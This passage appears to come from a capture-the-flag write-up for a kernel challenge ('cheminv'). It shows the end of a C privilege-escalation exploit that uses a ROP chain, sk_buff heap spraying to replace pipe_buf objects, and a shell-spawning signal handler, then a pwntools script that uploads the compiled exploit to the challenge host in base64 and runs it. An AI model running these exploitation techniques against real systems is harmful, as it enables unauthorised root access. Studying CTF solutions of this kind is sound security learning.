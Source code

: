 ```c
  rop_chain[off++] = user_ss;

  signal(SIGSEGV, get_shell);

  puts("[+] spray sk_buff over cg-1k and replace pipe_buf");
  for (int i = 0; i < socket_num; i++) {
    for (int j = 0; j < skbuff_num; j++) {
      write(sk_sockets[i][0], payload_2, sizeof(payload_2));
    }
  }

  puts("[+] release all pipe_bufs");
  for (int i = 0; i < pipe_buf_spray; i++) {
    close(pipe_buf_fds[i][0]);
    close(pipe_buf_fds[i][1]);
  }

  puts("[+] exiting");

  return 0;
}
```

I compiled it with `musl-gcc -static -o exploit exploit.c`.

Then, I used the following script to send the binary to remote:

```py
from pwn import *

p = remote("localhost", 1337)

p.sendlineafter(b"$", b"cd /tmp")

with open("./base64-exploit.txt", "r") as f:
    exploit = f.readlines()

p.sendlineafter(b"$", b"touch expl")

for line in exploit:
    p.sendlineafter(b"$", f"echo \"{line.strip()}\" >> expl".encode())

p.sendlineafter(b"$", b"base64 -d expl > exploit; chmod +x exploit")

p.interactive()
```

Note: I ran it with `python3 solve.py NOTERM` because the VM would output annoying carriage returns that cleared the
output.

![FLAGGG](/images/posts/lnc-2024/cheminv.png)
